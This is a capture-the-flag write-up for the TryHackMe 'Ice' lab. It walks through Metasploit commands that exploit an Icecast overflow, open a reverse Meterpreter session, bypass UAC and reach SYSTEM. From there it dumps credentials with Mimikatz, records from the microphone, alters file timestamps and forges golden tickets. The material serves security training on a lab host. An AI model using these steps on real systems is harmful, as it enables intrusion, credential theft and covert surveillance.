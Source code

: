 # [Ice](https://tryhackme.com/room/ice)

> Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

## Scanning

scan the machine

```
nmap -sS -sV -sC -T4 10.10.97.40
```

wow, a vulnerable machine with a lot of open port

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/91723cd7-6f79-4f17-b24a-d943fa2c557c)

and nmap also aprear a smb result

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d2563845-f24e-4633-9750-bbac0a5667bc)

## Exploitation

search for the vulnerabilites of it's service

```
msfconsole
search icecast
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a956a915-c8cb-4a31-b4f9-470ac7ad2959)

we found a `execute code overflow` of CVE-2004-1561

```
use 0
info
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b08b4c51-2046-4f85-b38e-bd890942624e)

```
show options
set RHOSTS 10.10.97.40
set LHOST 10.18.37.45
exploit
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c864d081-f2e3-4432-b2e5-898fc05e0ae9)

we gain an access, let's look around

```
getuid
sysinfo
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6ce100aa-2e8c-459c-a230-2b7a0293b8f7)

## Privilege Escalation

metasploit provides a module that will automatically scan for potential escalation exploits based on the system that we are in

```
run post/multi/recon/local_exploit_suggester
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bd4d1466-cc6b-4cf0-a930-dcce50662236)

we found an exploit, background the session before use

```
Ctrl + Z
use exploit/windows/local/bypassuac_eventvwr
show options
set session 1
set LHOST 10.18.37.45
exploit
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6f371ac2-61c8-45e7-9e8e-f68e645ecc42)

check our permission

```
getprivs
```

we already got a lot of roles, include take ownership of files

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fffa56ef-1a82-434e-927e-62da05ae6844)

even though we have a lot of privileges in the system, but our current process does not

```
ps
```

so now we want to migrate to another, `spoolsv.exe` is owned by 'NT AUTHORITY\SYSTEM' one of example

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cad0584f-e0ba-4681-8d1d-4ab753e2ffb8)

```
migrate -N 1376
getuid
```

now, we are in 'NT AUTHORITY\SYSTEM' that are full administrator permissions

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6d52f6ea-0e56-4a94-aa64-38540cad9db8)

using Mimikatz to retrieve all the credentials

```
load kiwi
creds_all
```

there you go!

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c85c398b-8dfc-4036-8f6c-15fd6bea7bb6)

## Post-Exploitation

this section wants to hone your skills about the meterpreter and Mimikatz

have a look at the documentation by typing:

```
help
```


What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)

```
hashdump
```

While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?

```
screenshare
```

How about if we wanted to record from a microphone attached to the system?

```
record_mic
```

To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.

```
timestomp
```

Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?

```
golden_ticket_create
```

As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. 

If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`
